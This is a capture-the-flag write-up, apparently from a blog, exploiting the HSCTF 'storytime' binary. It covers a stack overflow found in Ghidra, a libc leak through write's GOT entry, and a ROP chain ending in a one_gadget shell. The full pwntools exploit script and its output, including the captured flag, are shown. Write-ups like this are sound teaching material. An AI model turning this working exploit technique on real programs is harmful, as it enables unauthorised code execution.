


---
search:
  exclude: true
---
# Binary Exploitation

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/hs19_storytime/core
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/hs19_storytime/libc.so.6
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → wget -q https://github.com/guyinatuxedo/nightmare/raw/master/modules/08-bof_dynamic/hs19_storytime/storytime
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → file storytime
    storytime: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3f716e7aa7e236824c52ed0410c1f14739919822, not stripped
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → chmod +x storytime ; ls -lash
    total 4.1M
    4.0K drwxr-xr-x  2 nothing nothing 4.0K Mar  7 10:27 .
    4.0K drwxr-xr-x 13 nothing nothing 4.0K Mar  7 10:26 ..
    2.3M -rw-r--r--  1 nothing nothing 2.3M Mar  7 10:26 core
    1.8M -rw-r--r--  1 nothing nothing 1.8M Mar  7 10:27 libc.so.6
     12K -rwxr-xr-x  1 nothing nothing 8.3K Mar  7 10:27 storytime
    
    

` 

## Solution 

First of all let's run pwn checksec on the binary and then run it to see what it does:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → pwn checksec storytime
    [*] '/home/nothing/binexp/2/hs/storytime'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → ./storytime
    HSCTF PWNNNNNNNNNNNNNNNNNNNN
    Tell me a story:
    yes
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → ./storytime
    HSCTF PWNNNNNNNNNNNNNNNNNNNN
    Tell me a story:
    no
    
    

So we have a 64 bit dynamically linked binary that has a Non-Executable stack (NX), it prints out some text, and then prompts us for input. Let's view it inside of ghidra:

We get the following disassembled code:
    
    
    undefined8 main(void)
    
    {
      undefined local_38 [48];
      
      setvbuf(stdout,(char *)0x0,2,0);
      write(1,"HSCTF PWNNNNNNNNNNNNNNNNNNNN\n",0x1d);
      write(1,"Tell me a story: \n",0x12);
      read(0,local_38,400);
      return 0;
    }
    
    

Our input text gets passed into a read() call, and we can pass in 400 bytes of data into the local_38 variable even though it was initially declared to be able to hold only 48 bytes. So this means that we have our buffer overflow right here. There is no stack canary, so nothing stops us from executing code, now what will we execute ? When we look under the imports in Ghidra, we see the following imported functions: 

So this means that we can call any of these functions, Since the ELF is dynamically linked, we don't have alot of gadgets. First we will need to get a libc infoleak with a **write** function that writes to stdout (1) and then loops back again to a vulnerable read call to overwrite the return address with a [onegadget](https://github.com/david942j/one_gadget), which is a ROP gadget that can be found in the libc, that can potentially spawn a shell. Now we need to know what the libc version is, we can view it from gdb with the **vmmap** command.

Here we want to set the first breakpoint after the read call at **0x4x4x4x40069c** , so we can locate where our text is:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/25 ] [binexp/2/hs]
    → gdb ./storytime
    GNU gdb (GDB) 10.1
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-pc-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    .
    Find the GDB manual and other documentation resources online at:
        .
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    GEF for linux ready, type `gef' to start, `gef config' to configure
    92 commands loaded for GDB 10.1 using Python engine 3.9
    Reading symbols from ./storytime...
    (No debugging symbols found in ./storytime)
    gef➤  b *0x40069c
    Breakpoint 1 at 0x40069c
    gef➤  r
    Starting program: /home/nothing/binexp/2/hs/storytime
    HSCTF PWNNNNNNNNNNNNNNNNNNNN
    Tell me a story:
    13371337
    
    Breakpoint 1, 0x000000000040069c in main ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x0
    $rbx   : 0x00000000004006a0  →  <__libc_csu_init+0> push r15
    $rcx   : 0x00007ffff7ebd052  →  0x5677fffff0003d48 ("H="?)
    $rdx   : 0x190
    $rsp   : 0x00007fffffffdf38  →  0x00007ffff7df4b25  →  <__libc_start_main+213> mov edi, eax
    $rbp   : 0x0
    $rsi   : 0x00007fffffffdf00  →  0x3733333137333331 ("13371337"?)
    $rdi   : 0x0
    $rip   : 0x000000000040069c  →   ret
    $r8    : 0x0
    $r9    : 0x00007ffff7fdc070  →  <_dl_fini+0> endbr64
    $r10   : 0xfffffffffffffb87
    $r11   : 0x246
    $r12   : 0x00000000004004d0  →  <_start+0> xor ebp, ebp
    $r13   : 0x0
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffdf38│+0x0000: 0x00007ffff7df4b25  →  <__libc_start_main+213> mov edi, eax  ← $rsp
    0x00007fffffffdf40│+0x0008: 0x00007fffffffe028  →  0x00007fffffffe358  →  "/home/nothing/binexp/2/hs/storytime"
    0x00007fffffffdf48│+0x0010: 0x00000001f7fca000
    0x00007fffffffdf50│+0x0018: 0x000000000040062e  →   push rbp
    0x00007fffffffdf58│+0x0020: 0x00007fffffffe339  →  0x61b7180f2454c920
    0x00007fffffffdf60│+0x0028: 0x00000000004006a0  →  <__libc_csu_init+0> push r15
    0x00007fffffffdf68│+0x0030: 0x7140ad8a61b88017
    0x00007fffffffdf70│+0x0038: 0x00000000004004d0  →  <_start+0> xor ebp, ebp
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x400691         call   0x4004b0 
         0x400696        mov    eax, 0x0
         0x40069b        leave
    ●→   0x40069c        ret
       ↳  0x7ffff7df4b25 <__libc_start_main+213> mov    edi, eax
          0x7ffff7df4b27 <__libc_start_main+215> call   0x7ffff7e0c820 
          0x7ffff7df4b2c <__libc_start_main+220> mov    rax, QWORD PTR [rsp]
          0x7ffff7df4b30 <__libc_start_main+224> lea    rdi, [rip+0x164729]        # 0x7ffff7f59260
          0x7ffff7df4b37 <__libc_start_main+231> mov    rsi, QWORD PTR [rax]
          0x7ffff7df4b3a <__libc_start_main+234> xor    eax, eax
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "storytime", stopped 0x40069c in main (), reason: BREAKPOINT
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x40069c → main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

What happened here is that we first set the breakpoint to be after the read call, and then we ran the binary, gave it an easy to remember pattern (13371337) and then we hit our breakpoint. Now let's search where our pattern is in the memory:
    
    
    gef➤  search-pattern 13371337
    [+] Searching '13371337' in memory
    [+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
      0x7fffffffdf00 - 0x7fffffffdf08  →   "13371337[...]"
    
    gef➤  info frame
    Stack level 0, frame at 0x7fffffffdf38:
     rip = 0x40069c in main; saved rip = 0x7ffff7df4b25
     Arglist at unknown address.
     Locals at unknown address, Previous frame's sp is 0x7fffffffdf40
     Saved registers:
      rip at 0x7fffffffdf38
    
    

So here we see that our pattern is located at **0x7fffffffdf00** and the return address is at **0x7fffffffdf38** so we can now calculate the offset between the 2 with python's hex() function easily:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/17 ] [Nextcloud/blog]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(  0x7fffffffdf00  -  0x7fffffffdf38  )
    '-0x38'
    
    

And we get a 0x38 bytes offset between the start of our input and the return address. Now for the write libc infoleak, we need to make use of the following registers:
    
    
    rdi	0x1 	(stdout file handle)
    rsi	got address entry for write
    rdx	value => 8
    
    

Since PIE isn't enabled, we know the address of the got entry without needing a PIE infoleak. Looking at the assembly code leading up to the ret instruction which gives us code execution, we can see that the **rdx** register is set to 0x190 whgich will fit our needs:
    
    
            00400680 48 8d 45 d0     LEA        RAX=>local_38,[RBP + -0x30]
            00400684 ba 90 01        MOV        EDX,0x190
                     00 00
            00400689 48 89 c6        MOV        RSI,RAX
            0040068c bf 00 00        MOV        EDI,0x0
                     00 00
            00400691 e8 1a fe        CALL       read                                             ssize_t read(int __fd, void * __
    
    

Now for the got entry of **write** in the rsi register, we see that there is a rop gadget that will allow us to pop it into the register. It will also pop a value into the r15 register, however we just need to include another 8 byte qword in our rop chain for that so it doesn't change anything:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/17 ] [binexp/2/hs]
    → ROPgadget --binary storytime| grep rsi
    0x0000000000400701 : pop rsi ; pop r15 ; ret
    
    

Now for the last register (1 in rdi) we can jump to 0x400601 which is in the middle of the end function:
    
    
    void end(void)
    
    {
      write(1,"The End!\n",0x28);
      return;
    }
    
    

The instruction we jump back to will **mov 0x1 into edi** and then call **write** which will give us our infoleak:
    
    
            004005fa 48 8d 35        LEA        RSI,[s_The_End!_00400761]                        = "The End!\n"
                     60 01 00 00
            00400601 bf 01 00        MOV        EDI,0x1
                     00 00
            00400606 e8 95 fe        CALL       write                                            ssize_t write(int __fd, void * _
                     ff ff
            0040060b 90              NOP
            0040060c 5d              POP        RBP
            0040060d c3              RET
    
    

So it will return and then continue with our ropchain, however before it does that, it will pop a value off of our chain into the rbp register so we will need to include a 8 bytes qword in our ropchain at that point. for where to jump to, we choose **0x40060e** since it is the beginning of the **climax** function: 

    
    
    void climax(void)
    
    {
      undefined local_38 [48];
      
      read(0,local_38,4000);
      return;
    }
    
    

This function will give us a buffer overflow where we can overwrite the return address with a onegadget and spawn a shell. Now let's find the onegadget from the base of libc, to choose which ones to use we can just guess and check 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/17 ] [binexp/2/hs]
    → one_gadget libc.so.6
    0x45216 execve("/bin/sh", rsp+0x30, environ)
    constraints:
      rax == NULL
    
    0x4526a execve("/bin/sh", rsp+0x30, environ)
    constraints:
      [rsp+0x30] == NULL
    
    0xf02a4 execve("/bin/sh", rsp+0x50, environ)
    constraints:
      [rsp+0x50] == NULL
    
    0xf1147 execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    
    

So with all of this, we end up with the following exploit:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/17 ] [binexp/2/hs]
    → vim exploit.py
    
    
    
    
    from pwn import *
    
    target = process('./storytime')
    libc = ELF('libc.so.6')
    
    popRsiR15 = p64(0x400701)
    writeGot = p64(0x601018)
    payload = b"\x00"*0x38
    
    # Pop the got entry of write into r15
    payload += popRsiR15
    payload += writeGot
    payload += p64(0x3030303030303030) # Filler value will be popped into r15
    
    # Right before write call in end
    payload += p64(0x400601)
    
    # Filler value that will be popped off in end
    payload += p64(0x3030303030303030)
    
    # Address of climax, we will exploit another buffer overflow to use the rop gadget
    payload += p64(0x40060e)
    
    target.sendline(payload)
    print(target.recvuntil("Tell me a story: \n"))
    
    # Scan in and filter out the libc infoleak, calculate base of libc
    leak = u64(target.recv(8))
    base = leak - libc.symbols["write"]
    print(hex(base))
    
    # Calculate the oneshot gadget
    oneshot = base + 0x4526a
    
    # Make the payload for the onshot gadget
    payload = b"\x00"*0x38 + p64(oneshot)
    
    # Send it and get a shell
    target.sendline(payload)
    target.interactive()
    
    
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/17 ] [binexp/2/hs]
    → python3 original.py
    [+] Starting local process './storytime': pid 1570923
    [*] '/home/nothing/binexp/2/hs/libc.so.6'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    b'HSCTF PWNNNNNNNNNNNNNNNNNNNN\nTell me a story: \n'
    0x7f1b59432e30
    [*] Switching to interactive mode
    @\xa0RY\x1b\x7f\x00\xf0KY\x1b\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00 \xc5_Y\x1b\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0[*] Got EOF while reading in interactive
    $ cat flag.txt
    hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
    

And that's it ! we managed to capture the flag.

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

